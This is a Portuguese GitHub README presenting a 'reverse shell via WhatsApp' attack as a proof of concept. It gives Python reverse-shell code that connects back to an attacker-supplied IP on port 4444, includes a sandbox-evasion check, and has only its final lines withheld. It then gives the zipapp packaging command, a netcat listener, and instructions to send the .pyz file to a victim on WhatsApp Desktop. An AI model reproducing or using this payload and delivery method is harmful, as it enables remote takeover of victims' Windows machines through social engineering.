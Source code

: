 # Reverse_Shell_WhatsApp

## Introdução
Essa vulnerabilidade crítica presente em aplicativos de mensagens instantâneas como o **WhatsApp**, que permite que invasores executem script maliciosos desenvolvido em `Python` e `PHP` sem qualquer tipo de notificação, verificação do Windows Defender ou verificação realizada pelo usuário da máquina.
Com resultado disso, o invasor pode realizar um reverse shell e após isso; escalar privilégios em seu alvo, buscando privilégios administrativos através de falhas no UAC do Windows.
___
### Requisitos para o PC do alvo
- WhatsApp Desktop
- Python3 instalado na máquina
- Sistema Operacional: Windows10/11

### Fase 1: Criando o payload (Reverse Shell)
Criaremos um script em `.py` onde ficará nossa shell reverse
``` python
import os
import socket
import subprocess


if os.cpu_count() <= 2:
    quit()

HOST = 'SEU_IP'
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(str.encode("[*] Connection Established!"))

while 1:
    try:
        s.send(str.encode(os.getcwd() + "> "))
        data = s.recv(1024).decode("UTF-8")
        data = data.strip('\n')
        if data == "quit": 
            break
        if data[:2] == "cd":
            os.chdir(data[3:])
        if len(data) > 0:
            proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
            stdout_value = proc.stdout.read() + proc.stderr.read()
    
```
> Uma parte do código do script foi ofuscado para evitar mal uso, caso você seja um pesquisador ou entusiasta da área, me procure que irei disponibilizar.

### Fase 2: Criando o executável (.pyz)
Crie o executável `.pyz` utilizando o **zipaap**
 ```bash
python3 -m zipapp reverseshell.py -o reverseshell.pyz
```
https://github.com/user-attachments/assets/ba604063-a715-43c1-8fd2-e754ff4945f3" />

### Fase 3: Recebendo a conexão via Netcat
Inicie uma conexão utilizando **Netcat** utilizando a porta 4444 que foi usada no script
```bash
nc -lvnp 4444
```
<img width="259" height="75" alt="imagem" src="https://github.com/user-attachments/assets/60b155b0-e3dd-46b5-a5eb-057bfcb4ee1d" />

### Fase 4: Enviando o payload via WhatsApp
Envie o arquivo `.pyz`para a vítima através do WhatsApp, encaminhe como documento.
Assim que a vítima se conectar, teremos uma conexão em nosso Netcat.

## PoC - Prova de Conceito
https://github.com/user-attachments/assets/3f154f28-bb1e-42f3-a6b1-29f9d4c2f3af
